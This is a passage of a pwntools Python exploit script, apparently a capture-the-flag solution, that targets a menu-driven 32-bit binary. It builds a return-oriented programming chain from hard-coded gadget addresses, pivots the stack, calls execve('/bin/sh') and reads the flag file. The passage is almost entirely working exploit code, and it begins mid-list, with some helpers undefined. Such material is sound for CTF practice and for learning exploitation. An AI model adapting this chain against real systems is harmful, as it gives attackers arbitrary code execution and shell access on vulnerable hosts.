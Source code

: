 ```python
    p32(0),p32(e.got.sendfile),p32(1), # change to int 0x80

    p32(e.sym.read),
    p32(0x0804939a), # pop 3 ; ret
    p32(0),p32(0),p32(0), # set $edx = 0

    p32(0x0804939c), # pop ebp ; ret
    p32(0x804c2ec),
#0x804c2ec:
    p32(0x080492c2), # mov eax, dword ptr [ebp + 8] ; leave ; ret

    p32(0x0804939c), # pop ebp ; ret,
    p32(0xb),        # set $eax = 0xb

    p32(0x804976c), # pop ecx ; pop ebx ; pop ebp ; lea esp, [ecx - 4] ; ret
    p32(0x804c308),
    p32(0x804cf00),
    p32(e.plt.sendfile), # execve("/bin/sh", {NULL}, NULL)
# 0x804c308: 
    p32(0),p32(0)
]

pre_rop = [
    p32(e.sym.read),
    p32(0x0804939a), #pop 3 ; ret
    p32(0),p32(0x804c2b0),p32(0x3000),
]

for i in range(len(pre_rop)):
    callFunc(e.sym.magicMove,0x804c2b0-len(pre_rop)*4 + 4*i)
    p.send(pre_rop[i]+p32(0))

p.sendafter(b"6. Logout.\n",b"5")
p.send(
    p32(e.sym.main)+
    p32(0x0804901e)+ # pop ; ret
    p32(0x1337)+
    p32(0x08049283) # pop ebp ; leave ;ret 
)
p.sendafter(b"6. Logout.\n",b"6")

p.sendafter(b"6. Logout.\n",b"5")
p.sendline(
    p32(0x804c2b0-len(pre_rop)*4-4) # stack pivot
)
p.sendafter(b"6. Logout.\n",b"6")

sleep(1)

p.sendline(
    b''.join(rop)
)

sleep(0.1)

p.send(b"/bin/sh\0".ljust(16,b"\0"))

p.send(b"\x5b")

sleep(0.1)

p.sendline(b"cat flag*")

```